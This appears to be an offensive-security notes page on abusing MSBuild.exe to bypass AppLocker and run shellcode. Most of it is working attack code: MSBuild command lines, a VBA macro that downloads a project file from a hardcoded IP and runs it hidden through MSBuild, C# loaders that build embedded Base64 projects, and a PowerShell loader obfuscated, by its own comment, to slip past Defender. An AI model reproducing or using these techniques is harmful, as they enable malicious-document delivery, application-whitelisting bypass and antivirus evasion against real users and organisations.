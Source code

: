 ## MSBuild
- https://github.com/api0cradle/UltimateAppLockerByPassList/blob/master/md/Msbuild.exe.md
- https://github.com/3gstudent/msbuild-inline-task/tree/master

Select from available templates in this directory.


```
# When Executing x86 shellcode
C:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe csproj.cs
C:\Windows\Microsoft.NET\Framework\v2.0.50727\Msbuild.exe csproj.cs
C:\Windows\Microsoft.NET\Framework\v3.5\Msbuild.exe csproj.cs

# When Executing x64 shellcode
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe csproj.cs
C:\Windows\Microsoft.NET\Framework64\v2.0.50727\Msbuild.exe csproj.cs
C:\Windows\Microsoft.NET\Framework64\v3.5\Msbuild.exe csproj.cs
```

## Execute with Macro
Download from HTTP and execute on disk to bypass Applocker

```vba
Sub DownloadAndExecute()
    Const ADTYPEBINARY = 1, ADSAVECREATEOVERWRITE = 2
    Dim xHttp As Object, bStrm As Object
    Dim filename As String, appDataPath As String, msBuildPath As String

    appDataPath = Environ("APPDATA")
    filename = appDataPath & "\" & GenerateRandomFilename() & ".csproj.cs"
    
    msBuildPath = "C:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe"

    Set xHttp = CreateObject("MSXML2.ServerXMLHTTP.6.0")
    xHttp.Open "GET", "http://192.168.45.216/clm.csproj", False
    xHttp.send

    If xHttp.Status = 200 Then
        Set bStrm = CreateObject("ADODB.Stream")
        bStrm.Type = ADTYPEBINARY
        bStrm.Open
        bStrm.Write xHttp.responseBody
        bStrm.SaveToFile filename, ADSAVECREATEOVERWRITE
        bStrm.Close
    End If

    Set bStrm = Nothing
    Set xHttp = Nothing

    Shell msBuildPath & " """ & filename & """", vbHide
    
    Wait 10
End Sub

Function GenerateRandomFilename() As String
    Dim i As Integer, randomStr As String
    Randomize
    For i = 1 To 16
        randomStr = randomStr & Chr(Int((26 * Rnd) + 65))
    Next i
    GenerateRandomFilename = randomStr
End Function

Sub Wait(seconds As Long)
    Dim endTime As Date: endTime = DateAdd("s", seconds, Now)
    Do While Now < endTime: DoEvents: Loop
End Sub
```
## Other methods for execution

Other ways to use MSBuild in some capacity for code execution. 

```csharp
using Microsoft.Build.Evaluation;

namespace MSBuild
{
    class Program
    {
        static void Main(string[] args)
        {
            // Can be used with a UNC path as well
            // also supports .xml extensions
            string file = @"C:\Users\student\Desktop\test.csproj";
            ProjectCollection collection = new ProjectCollection();
            collection.LoadProject(file).Build();

        }
    }
}
```
It is also possible to store the .xml / .csproj file in a Base64 string within the binary and execute
```csharp
using Microsoft.Build.Evaluation;
using System;
using System.IO;
using System.Text;
using System.Xml;

namespace MSBuild
{
    class Program
    {
        static void Main(string[] args)
        {
            // Base64 encoded .csproj or .xml goes here
            string base64Csproj = "PABQAHIAbwBqA=";

            byte[] decodedBytes = Convert.FromBase64String(base64Csproj);
            string csprojContent = Encoding.UTF8.GetString(decodedBytes);

            using (var stringReader = new StringReader(csprojContent))
            using (var xmlReader = XmlReader.Create(stringReader))
            {
                ProjectCollection projectCollection = new ProjectCollection();
                Project project = new Project(xmlReader, null, null, projectCollection);
                bool buildSucceeded = project.Build();
            }
        }
    }
}
```

Powershell can also be used
The .xml / .csproj file can be encoded with Cyberchef: 

https://gchq.github.io/CyberChef/#recipe=Encode_text('UTF-16LE%20(1200)')To_Base64('A-Za-z0-9%2B/%3D')&ieol=CRLF

```powershell
# Reflective load obfuscated as Defender complains
# Original String: [System.Reflection.Assembly]::LoadWithPartialName('Microsoft.Build');

Function Invoke-MSBuild {
    $b = "PABQAHIAbwBqA="
    $p = [System.Convert]::FromBase64String($b)
    $x = [System.Text.Encoding]::Unicode.GetString($p)
    $r = [System.Xml.XmlReader]::Create([System.IO.StringReader]::new($x))
    SeT  t7JD ([TYPE](('sYS'+'T')+'eM'+('.r'+'E'+'fLEctio')+('N'+'.As')+('SEMbl'+'y'))  );   $T7jD::LoadWithPartialName(('Mic'+'rosoft.Bu'+'il'+'d'));
    $n = New-Object Microsoft.Build.Evaluation.Project($r)
    $n.Build()
}

Invoke-MSBuild | Out-Null

```
